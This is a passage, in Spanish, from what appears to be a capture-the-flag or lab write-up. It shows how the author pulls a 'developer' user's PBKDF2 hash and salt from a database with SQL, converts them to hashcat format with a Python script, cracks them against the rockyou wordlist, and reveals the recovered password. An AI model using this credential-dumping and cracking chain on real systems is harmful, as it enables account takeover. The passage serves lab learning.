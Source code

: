 ```
select passwd_hash_algo,salt,passwd from user where id = "2";
```

`id = "2"` porque pertenece al usuario developer.

```
pbkdf2$50000$50|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
```

# Shell como developer

El salt y el hash están en hexadecimal, para convertirlos a un formato compatible con hashcat hice esto:

```
#!/usr/bin/python3

import base64

salt_hash = "8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"

replace = salt_hash.replace("|", ":")

salt,hash = replace.split(":")

salt_bytes = bytes.fromhex(salt)
hash_bytes = bytes.fromhex(hash)

salt = base64.b64encode(salt_bytes).decode("utf-8")
hash = base64.b64encode(hash_bytes).decode("utf-8")

print(f"sha256:50000:{salt}:{hash}")
```

```
python3 script.py > hash
```

### Hashcat

```
hashcat -m 10900 -a 0 hash /usr/share/wordlists/rockyou.txt
```

```
<...snip...>
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
<...snip...>
```

Contraseña `25282528`.
